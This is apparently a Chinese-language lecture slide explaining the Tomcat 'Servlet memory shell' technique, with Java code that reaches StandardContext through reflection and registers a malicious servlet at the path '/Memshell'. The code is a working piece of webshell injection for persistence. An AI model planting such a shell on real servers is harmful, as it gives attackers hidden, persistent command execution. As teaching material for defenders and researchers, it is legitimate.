

# 基本概念
Servlet马：原理和前面讲的差不多，首先需要对一个java类实现Servlet接口，并在service方法中编写恶意类，然后拿到StandardContext，然后最后利用Wrapper设置路径并绑定对应的servlet。但是Servlet马有个缺点就是需要访问对应的路径才能执行命令！这样容易被发现。
部分代码：
    //获取standardContext
    String name = Shell_Servlet.class.getSimpleName();
    ServletContext servletContext = request.getServletContext();
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext)applicationContextField.get(servletContext);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext context = (StandardContext)standardContextField.get(applicationContext);
    //注册进context
    Wrapper wrapper = context.createWrapper();
    wrapper.setName(name);
    wrapper.setServletClass(Shell_Servlet.class.getName());
    wrapper.setServlet(new Shell_Servlet());
    context.addChild(wrapper);
    context.addServletMappingDecoded("/Memshell",name);
37